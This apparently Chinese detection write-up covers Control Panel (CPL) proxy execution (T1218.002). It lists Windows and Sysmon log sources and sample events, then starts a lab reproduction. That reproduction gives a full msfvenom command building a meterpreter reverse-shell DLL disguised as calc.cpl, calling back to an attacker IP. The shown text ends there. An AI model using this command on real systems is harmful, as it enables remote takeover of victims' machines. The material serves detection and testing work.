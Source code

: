 ## 检测日志

### 数据来源
- Windows安全日志：
  - 事件ID 4688：进程创建，记录`control.exe`或`rundll32.exe`的执行信息。
- Sysmon日志：
  - 事件ID 1：进程创建，包含命令行、哈希值和父进程。
  - 事件ID 7：映像加载，记录加载的DLL（如`shell32.dll`或恶意CPL）。
  - 事件ID 12/13：注册表操作，记录对`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel`等键的修改。
- 文件监控：
  - 检测非系统路径下的CPL文件。
- 网络监控：
  - 检测CPL文件引发的异常网络连接（如反弹Shell）。

### 日志示例
- Sysmon事件ID 1示例：
  ```
  事件ID:1
  OriginalFileName:control.exe
  CommandLine:control.exe C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1218.002\bin\calc.cpl
  CurrentDirectory:C:\Users\zhuli\
  User:QAX\zhuli
  Hashes:SHA1=6778DAD71C8B06264CF2929A5242D2612D3EB026
  ParentImage:C:\Windows\System32\cmd.exe
  ```
- Sysmon事件ID 7示例（Rundll32加载）：
  ```
  事件ID:7
  Image:C:\Windows\SysWOW64\rundll32.exe
  ImageLoaded:C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1218.002\bin\calc.cpl
  ```

## 测试复现

### 环境准备
- 攻击机：Kali Linux 2019（或其他支持Metasploit的系统）
- 靶机：Windows 7（或其他支持`control.exe`的Windows系统）
- 工具：
  - Metasploit Framework（生成Payload和监听）
  - C编译器（如MinGW或Visual Studio，生成CPL文件）
  - Sysmon（可选，日志收集）

### 攻击分析

#### 1.生成恶意CPL文件
使用`msfvenom`生成恶意CPL文件（实际为DLL）：
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f dll -o calc.cpl
```
- 参数说明：
  - `-a x86`：指定32位架构。
  - `-p windows/meterpreter/reverse_tcp`：生成反弹Shell。
  - `LHOST`和`LPORT`：攻击机IP和端口。
  - `-f dll`：输出为DLL，命名为`.cpl`。
